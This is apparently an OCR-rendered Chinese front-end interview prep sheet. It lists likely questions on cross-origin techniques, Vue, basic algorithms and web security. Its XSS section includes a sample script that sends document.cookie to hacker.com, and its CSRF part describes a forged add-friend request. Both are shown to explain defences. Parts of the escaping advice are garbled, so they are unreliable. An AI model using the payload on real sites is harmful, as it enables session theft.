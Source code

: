     1.  JSONP
    2.  CORS
    3.  postMessage 看一下 MDN

    Vue 押题

1.  （必考）Vue 有哪些生命周期钩子函数
    *   看文档：[https://cn.vuejs.org/v2/api/#%E9%80%89%E9%A1%B9-%E7%94%9F%E5%91%BD%E5%91%A8%E6%9C%9F%E9%92%A9%E5%AD%90](https://cn.vuejs.org/v2/api/#%E9%80%89%E9%A1%B9-%E7%94%9F%E5%91%BD%E5%91%A8%E6%9C%9F%E9%92%A9%E5%AD%90 "null")
2.  （必考）Vue 如何实现组件通信？
    1.  父子通信（使用 Prop 传递数据、使用 v-on 绑定自定义事件）
    2.  爷孙通信（通过两对父子通信，爷爸之间父子通信，爸儿之间父子通信）
    3.  [兄弟通信（new Vue() 作为 eventBus）](https://cn.vuejs.org/v2/guide/components.html#%E9%9D%9E%E7%88%B6%E5%AD%90%E7%BB%84%E4%BB%B6%E7%9A%84%E9%80%9A%E4%BF%A1 "null")
3.  Vuex 的作用是什么？

        *   看文档、博客 [https://vuex.vuejs.org/zh-cn/intro.html](https://vuex.vuejs.org/zh-cn/intro.html "null")
4.  VueRouter 路由是什么？

        *   看文档、博客
5.  Vue 的双向绑定是如何实现的？有什么缺点？

        *   看文档，[深入响应式原理](https://cn.vuejs.org/v2/guide/reactivity.html "null")
6.  Computed 计算属性的用法？跟 Methods 的区别。
     [https://zhuanlan.zhihu.com/p/33778594](https://zhuanlan.zhihu.com/p/33778594 "null")

    算法押题

1.  排序算法（背诵冒泡排序、选择排序、计数排序、快速排序、插入排序、归并排序）
2.  二分查找法
3.  翻转二叉树

    把上面三个背一下，算法题必过。

    安全押题

1.  什么是 XSS 攻击？如何预防？
    *   举例<pre>`  div.innerHTML = userComment  // userComment 内容是 &lt;script&gt;$.get('http://hacker.com?cookie='+document.cookie)&lt;/script&gt;
      // 恶意就被执行了，这就是 XSS
    `</pre>
    *   预防
        1.  不要使用 innerHTML，改成 innerText，script 就会被当成文本，不执行
        2.  如果你一样要用 innerHTML，字符过滤

            *   把 &lt; 替换成 `&amp;lt;`*   把 &gt; 替换成 `&amp;gt;`
            *   把 &amp; 替换成 `&amp;amp;`
            *   把 ' 替换成 `&amp;#39;`
            *   把 ' 替换成 `&amp;quot;`
            *   代码 div.innerHTML = userComment.replace(/&gt;/g, '`&amp;lt;`').replace...
        3.  使用 CSP Content Security Policy
2.  什么是 CSRF 攻击？如何预防？
        *   过程
        1.  用户在 qq.com 登录
        2.  用户切换到 hacker.com（恶意网站）
        3.  hacker.com 发送一个 qq.com/add_friend 请求，让当前用户添加 hacker 为好友。
        4.  用户在不知不觉中添加 hacker 为好友。
        5.  用户没有想发这个请求，但是 hacker 伪造了用户发请求的假象。
    *   避免
        1.  检查 referer，qq.com 可以拒绝来自 hacker.com 的请求
        2.  csrf_token 来解决
